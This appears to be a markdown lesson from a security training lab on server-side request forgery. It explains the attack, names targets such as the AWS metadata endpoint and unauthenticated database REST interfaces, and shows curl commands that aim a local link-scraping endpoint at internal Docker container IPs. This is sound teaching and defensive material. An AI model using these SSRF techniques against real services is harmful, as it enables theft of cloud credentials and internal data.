 # Server Side Request Forgery

Server side request forgery is a nasty vulnerability that allows attackers to see things from the point of view of their victim. For example, if a web server is available to the public and has to access resources in the private network, an SSRF would be an vulnerability that allows an attacker to see or act upon internal services only by interacting with that web server.

This can take multiple forms:

* Cloud server meta-data - Cloud services such as AWS provide a REST interface on http://169.254.169.254/ where important configuration and sometimes even authentication keys can be extracted
* Database HTTP interfaces - NoSQL database such as MongoDB provide REST interfaces on HTTP ports. If the database is expected to only be available to internally, authentication may be disabled and the attacker can extract data
* Internal REST interfaces
* Files - The attacker may be able to read files using file:// URIs

# Lab

We have an endpoint that will reach out to a website and scrape the HTML for valid links. This is a very common practice for web crawling. You can try it out by running:
```
curl 'http://localhost:8080/links?url=http://wikipedia.com' | jq .
```

When an attacker typically wants to try to exploit a SSRF vulnerability, they will iterate over all internal IPs. They would typically get this list by looking at defaults, such as common VPC networks in AWS such as the `10.0.0.0/24` subnet. How they get the list of internal IPs to iterate over is out of scope for this lesson, but you can obtain a list of IPs to the Docker network by running:

```
$ docker network inspect cyberlens_default | jq -r '.[0].Containers[]|.IPv4Address'
172.19.0.2/16
172.19.0.3/16
172.19.0.4/16
```

Once you have this list try to execute a SSRF attack against the endpoint `/links`.

<details>
  <summary>Answer</summary>

  The IP address that worked for you will likely be different, but this lab shows that even though you cannot access the internal site from outside, the web server can. Therefore, using a SSRF attack, you can gain valuable information from this internal site such as a list of internal email addresses.

  ```
  $ curl 'http://localhost:8080/links?url=http://172.19.0.2' | jq .
  [
    "mailto:alice@example.com?subject=feedback",
    "mailto:bob@example.com?subject=feedback",
    "mailto:tom@example.com?subject=feedback",
    "mailto:eve@example.com?subject=feedback"
  ]
  ```

  **Followup question:**
  1. How would we validate the url that is being passed into this function?
  2. Use the `/links-v2` and see if you can still break it.

</details>
